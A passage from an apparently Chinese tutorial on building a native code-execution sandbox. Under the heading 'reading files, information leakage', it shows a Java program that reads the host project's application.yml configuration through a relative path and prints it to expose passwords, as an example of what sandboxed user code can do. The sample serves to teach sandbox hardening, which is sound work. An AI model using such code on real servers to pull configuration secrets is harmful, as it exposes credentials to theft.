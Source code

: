 ![image.png](./assets/第5期-代码沙箱原生实现/68ef1ce9-cd41-4830-90e2-8a8a32e83bf8.png)

### 3、读文件，信息泄露

比如直接通过相对路径获取项目配置文件，获取到密码：

```java
import java.io.File;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.List;

/**
 * 读取服务器文件（文件信息泄露）
 */
public class Main {

    public static void main(String[] args) throws InterruptedException, IOException {
        String userDir = System.getProperty("user.dir");
        String filePath = userDir + File.separator + "src/main/resources/application.yml";
        List<String> allLines = Files.readAllLines(Paths.get(filePath));
        System.out.println(String.join("\n", allLines));
    }
}
```
